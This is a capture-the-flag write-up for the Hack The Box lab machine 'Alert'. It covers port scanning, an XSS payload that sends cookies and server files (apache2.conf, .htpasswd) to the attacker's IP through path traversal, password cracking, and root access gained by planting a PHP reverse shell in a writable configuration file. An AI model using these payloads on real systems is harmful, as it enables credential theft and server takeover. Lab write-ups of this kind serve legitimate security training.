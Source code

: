 ```yaml
---
title: "HTB: Alert Release Arena"
author: "v3l1d"
date: "2024-11-26"
year: "2024"
---
```


![](attachment/d6657ac653fbaac0234f05d4af35f49d.png)

### Port Scan

```shell
# Nmap 7.94SVN scan initiated Tue Nov 26 17:13:16 2024 as: /usr/lib/nmap/nmap --privileged -sC -sV -A -T4 -o port_scan 10.129.68.51
Nmap scan report for 10.129.68.51
Host is up (0.083s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://alert.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5.0
OS details: Linux 5.0
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT      ADDRESS
1   82.05 ms 10.10.14.1
2   82.72 ms 10.129.68.51

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 26 17:13:37 2024 -- 1 IP address (1 host up) scanned in 21.01 seconds

```

### Enumeration

```shell
┌──(kali㉿kali)-[~/HTB/Alert]
└─$ ffuf -u http://alert.htb/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
------------------
┌──(kali㉿kali)-[~/Downloads]
└─$ ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://alert.htb:80/ -H 'Host: FUZZ.alert.htb' -fc 301 
```

![](attachment/66228c6986c50a98896388dd46fb4f38.png)

![](attachment/3e99db7c16fa89cd7881b6f9bcd8c411.png)

![](attachment/0ff1f90ec311458c467ff1983ed9bf33.png)

### XSS

By **Contact Us** page we are able to perform XSS attack:

```html
<script>fetch('http://10.10.14.72:8090?cookie=' + document.cookie);</script>
```

![](attachment/fb83ae8d072b50c8decadbf1c5ff66c1.png)

Put the below script in a **.md** file:

```javascript
<script>
  // Fetch the content of the specified file
  fetch("http://alert.htb/messages.php?file=../../../../../../../etc/apache2/apache2.conf")
    .then(response => response.text()) // Convert the response to text
    .then(data => {
      // Send the fetched data to a specified server
      fetch("http://10.10.14.72:8888/?data=" + encodeURIComponent(data));
    })
    .catch(error => console.error("Error fetching the messages:", error));
</script>

<!-- <img src="http://alert.htb/visualizer.php?link_share=674658646fa912.41675821.md"/> -->
```

Meanwhile start a python http server:

```python
python -m http.server 8888
```

Then go to **Contact Us** page:

![](attachment/a52193d3f18d7809a6e50b7a962ece2c.png)

![](attachment/cdd35bee4acff7ccd34b801b04d00689.png)

```XML
%3Cpre%3E%3CVirtualHost%20*%3A80%3E%0A%20%20%20%20ServerName%20alert.htb%0A%0A%20%20%20%20DocumentRoot%20%2Fvar%2Fwww%2Falert.htb%0A%0A%20%20%20%20%3CDirectory%20%2Fvar%2Fwww%2Falert.htb%3E%0A%20%20%20%20%20%20%20%20Options%20FollowSymLinks%20MultiViews%0A%20%20%20%20%20%20%20%20AllowOverride%20All%0A%20%20%20%20%3C%2FDirectory%3E%0A%0A%20%20%20%20RewriteEngine%20On%0A%20%20%20%20RewriteCond%20%25%7BHTTP_HOST%7D%20!%5Ealert%5C.htb%24%0A%20%20%20%20RewriteCond%20%25%7BHTTP_HOST%7D%20!%5E%24%0A%20%20%20%20RewriteRule%20%5E%2F%3F(.*)%24%20http%3A%2F%2Falert.htb%2F%241%20%5BR%3D301%2CL%5D%0A%0A%20%20%20%20ErrorLog%20%24%7BAPACHE_LOG_DIR%7D%2Ferror.log%0A%20%20%20%20CustomLog%20%24%7BAPACHE_LOG_DIR%7D%2Faccess.log%20combined%0A%3C%2FVirtualHost%3E%0A%0A%3CVirtualHost%20*%3A80%3E%0A%20%20%20%20ServerName%20statistics.alert.htb%0A%0A%20%20%20%20DocumentRoot%20%2Fvar%2Fwww%2Fstatistics.alert.htb%0A%0A%20%20%20%20%3CDirectory%20%2Fvar%2Fwww%2Fstatistics.alert.htb%3E%0A%20%20%20%20%20%20%20%20Options%20FollowSymLinks%20MultiViews%0A%20%20%20%20%20%20%20%20AllowOverride%20All%0A%20%20%20%20%3C%2FDirectory%3E%0A%0A%20%20%20%20%3CDirectory%20%2Fvar%2Fwww%2Fstatistics.alert.htb%3E%0A%20%20%20%20%20%20%20%20Options%20Indexes%20FollowSymLinks%20MultiViews%0A%20%20%20%20%20%20%20%20AllowOverride%20All%0A%20%20%20%20%20%20%20%20AuthType%20Basic%0A%20%20%20%20%20%20%20%20AuthName%20%22Restricted%20Area%22%0A%20%20%20%20%20%20%20%20AuthUserFile%20%2Fvar%2Fwww%2Fstatistics.alert.htb%2F.htpasswd%0A%20%20%20%20%20%20%20%20Require%20valid-user%0A%20%20%20%20%3C%2FDirectory%3E%0A%0A%20%20%20%20ErrorLog%20%24%7BAPACHE_LOG_DIR%7D%2Ferror.log%0A%20%20%20%20CustomLog%20%24%7BAPACHE_LOG_DIR%7D%2Faccess.log%20combined%0A%3C%2FVirtualHost%3E%0A%0A%3C%2Fpre%3E%0A
```

```XML
<pre><VirtualHost *:80>
    ServerName alert.htb
    DocumentRoot /var/www/alert.htb
    <Directory /var/www/alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>
    RewriteEngine On
    RewriteCond %{HTTP_HOST} !^alert\.htb$
    RewriteCond %{HTTP_HOST} !^$
    RewriteRule ^/?(.*)$ http://alert.htb/$1 [R=301,L]
    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
<VirtualHost *:80>
    ServerName statistics.alert.htb
    DocumentRoot /var/www/statistics.alert.htb
    <Directory /var/www/statistics.alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>
    <Directory /var/www/statistics.alert.htb>
        Options Indexes FollowSymLinks MultiViews
        AllowOverride All
        AuthType Basic
        AuthName "Restricted Area"
        AuthUserFile /var/www/statistics.alert.htb/.htpasswd
        Require valid-user
    </Directory>
    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
</pre>

```

Now repeat the procedure trying to acces **.htpasswd** file, replacing the path in the script:

```python
http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd
```

After retriggering the XSS from Contact Us form we'll get:

![](attachment/0ce3ad006a392dc1ffbef62788e9a149.png)

```HTML
%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24i******************
_______________
DECODED: 
<pre>albert:$apr1$*********Q/</pre>
```

Cracked it with haschat:

![](attachment/cfb06d3ecca98a143e24def872fd0428.png)

```shell
albert:m********
```

Login trough SSH into albert:

![](attachment/11d186566995b252209094ebcfe8f478.png)

```shell
userflag:de185f1ff*******************
```

### Privilege Escalation

From netsat we can see that there is a service running on port **8080**

![](attachment/1f93c2b0faaa4ffaea0fe1e682483b78.png)

![](attachment/ffc9628049ccd5f84b8c7be1f07aa741.png)

![](attachment/6529bd7a5d44e49e4ff0cdaf0c3b5b03.png)

The file **/opt/website-monitor/config/configuration.php** is writeable:

![](attachment/13f3b82f37651b33769179083c64c6a8.png)

Add this line to **configuration.php** 

```shell
$sock=fsockopen("10.10.14.72",9909);shell_exec("/bin/sh -i <&3 >&3 2>&3");
```

```shell
curl http://localhost:8080/config/configuration.php
---------------------------------------------------
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9909
listening on [any] 9909 ...
connect to [10.10.14.72] from (UNKNOWN) [10.129.161.22] 59662
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# ls
root.txt
scripts
# cat root.txt  
```

![](attachment/4ecc2194c78c07dbf8aa6e74d016a2d5.png)

```shell
rootflag:238a5640d5acdd*****************
```
